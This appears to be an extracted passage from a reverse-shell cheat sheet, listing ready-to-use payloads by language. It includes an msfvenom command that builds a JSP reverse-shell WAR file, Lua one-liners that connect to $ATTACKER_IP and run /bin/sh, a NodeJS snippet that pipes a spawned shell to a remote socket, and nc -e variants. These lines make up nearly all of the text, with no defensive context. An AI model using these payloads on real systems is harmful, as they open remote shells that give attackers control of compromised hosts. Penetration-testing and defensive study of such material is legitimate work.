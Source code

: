 #### War

```java
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f war > reverse.war
strings reverse.war | grep jsp # in order to get the name of the file
```


#### Lua

> Linux only

```powershell
lua -e "require('socket');require('os');t=socket.tcp();t:connect('$ATTACKER_IP','$ATTACKER_PORT');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

> Windows and Linux

```powershell
lua5.1 -e 'local host, port = "$ATTACKER_IP", $ATTACKER_PORT local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

#### NodeJS

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect($ATTACKER_PORT, "$ATTACKER_IP", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();


or

require('child_process').exec('nc -e /bin/sh $ATTACKER_IP $ATTACKER_PORT')

or

-var x = global.process.mainModule.require
-x('child_process').exec('nc $ATTACKER_IP $ATTACKER_PORT -e /bin/bash')

or

https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py
```
